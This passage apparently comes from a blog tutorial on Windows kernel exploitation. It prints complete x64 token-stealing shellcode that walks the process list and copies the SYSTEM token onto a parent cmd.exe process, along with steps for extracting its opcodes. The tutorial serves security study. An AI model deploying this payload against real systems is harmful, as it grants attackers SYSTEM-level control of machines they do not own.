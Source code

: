 To view the disassembly:
```
ndisasm -b 64 MyTokenElevate
```

Use `HxD` to copy the opcodes into your C program:
![](imgs/blog/1WindowsKernelShellcode/20250219182238.png)

Here is our asm code:
```nasm

section .text
BITS 64

		nop

		mov r9, qword [gs:0x188]			; obtenemos el _KTHREAD
		mov r9, qword [r9 + 0x220]				; obtenemos el _EPROCESS/_KPROCESS
		mov r8, qword [r9 + 0x540]				; get the InheritedFromUniqueProcessId (cmd.exe PID)

		loop1:
			mov r9, qword [r9+0x448]			; go to the flink
			sub r9, 0x448						; back to the start of _EPROCESS
			mov r10, qword [r9+0x440]			; get the UniqueProcessId
			cmp r10, r8							; compare both PIDs
			jne loop1
			
		mov rax, r9								; get the cmd.exe's token
		add rax, 0x4b8							; get the address of _EPROCESS on Token position

		loop2:
			mov r9, qword [r9+0x448]			; go to the flink
			sub r9, 0x448						; go to the _EPROCESS' structure start
			mov r10, qword [r9+0x440]			; Gett the UniqueProcesId
			cmp r10, 4							; compare the process ID with 4
			jne loop2
			
		mov r9, qword [r9+0x4b8]
		mov [rax], r9

		ret

```
